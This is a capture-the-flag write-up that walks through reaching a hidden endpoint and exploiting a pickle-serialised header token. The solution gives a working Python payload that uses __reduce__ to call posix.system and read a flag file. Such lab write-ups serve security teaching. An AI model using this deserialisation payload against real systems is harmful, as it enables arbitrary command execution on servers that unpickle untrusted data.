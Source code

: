 Discovered credentials:
- Username: `dreky`
- Password: `ohyeahboiiiahhuhh`

## Technical Deep Dive

A POST request to the `/login` endpoint using the discovered credentials yields:

![Successful login request/response](Pasted%20image%2020250218145247.png)

The response redirects to a new page:

![First flag part reveal](Pasted%20image%2020250218145327.png)

Source code reveals a CSS file reference:

![CSS file reference highlight](Pasted%20image%2020250218145421.png)

The CSS file contents expose additional information:

![CSS file contents showing new endpoint](Pasted%20image%2020250218145502.png)

The discovered endpoint `/t0p_s3cr3t_p4g3_7_7` returns a response with an interesting header:

![Response with X-Serial-Token header](Pasted%20image%2020250218145613.png)

Using CyberChef of the token reveals like a Python pickle serialization. The structure suggests it's trying to call `posix.system('dreky')`:

![CyberChef base64 decode output](Pasted%20image%2020250218145651.png)

## Solution 

Analysis of the X-Serial-Token reveals Python pickle serialization. Python's pickle module serializes Python objects into a byte stream for storage or transmission. However, pickle deserialization executes code during object reconstruction, making it dangerous when processing untrusted data.

The original token decoded shows:
```python
{
    'posix': 'system',
    'command': 'dreky'
}
```

This structure indicates the server deserializes the token and executes system commands. The vulnerability lies in pickle's `__reduce__` method, which allows arbitrary code execution during deserialization. A malicious payload can be crafted:

```python
import pickle
import base64
import posix

class Evil:
    def __reduce__(self):
        # Returns a tuple of (callable, args) that pickle uses for reconstruction
        # When deserialized, it executes: posix.system(command)
        return (posix.system, ('cat flag.txt',))

payload = pickle.dumps(Evil())
print(base64.b64encode(payload).decode())
```
